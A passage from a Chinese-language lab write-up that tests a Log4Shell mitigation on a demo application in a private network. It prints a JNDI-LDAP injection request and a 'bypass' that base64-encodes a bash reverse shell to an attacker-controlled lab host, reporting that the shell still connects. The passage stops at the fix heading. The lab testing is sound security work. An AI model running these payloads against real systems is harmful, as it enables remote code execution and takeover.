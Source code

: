 ![](./pic/添加全局禁用配置.png)<br>
然后，我们将文件重新打包<br>
![](./pic/重新打包到demo.jar.png)

### 验证缓解效果

我们使用
```bash
curl "http://192.168.8.129:51707/search?q=\${jndi:ldap://192.168.8.132:7777/a}"
```
来验证效果<br>
![](./pic/结果.png)<br>
请求成功到达了目标服务器（192.168.8.129:51707）/search 路径存在或被 Web 框架处理了。但并没有在监听窗口（nc 监听）看到任何连接，也没有出现服务器尝试访问 192.168.8.132:1389

### 绕过

再次使用上次的命令’
```bash
cmd='bash -i >& /dev/tcp/192.168.8.132/7777 0>&1'

# Base64 编码后移除填充符 `=`，并替换特殊符号
encoded_cmd=$(echo -n "$cmd" | base64 -w 0 | tr -d '=' | sed 's/+/%2B/g')

# 发送请求（注意不再手动编码 `=`）
curl -G "http://192.168.8.129:51707/hello" --data-urlencode "payload=\${jndi:ldap://192.168.8.132:1389/TomcatBypass/Command/Base64/${encoded_cmd}}"
```
发现还是可以有反弹shell<br>
上文中已经发现log4j不能访问，此处可能是因为有其他JNDI被执行，或者在其他的组件的core中仍然存在其他的JNDI执行的部分

### 修复
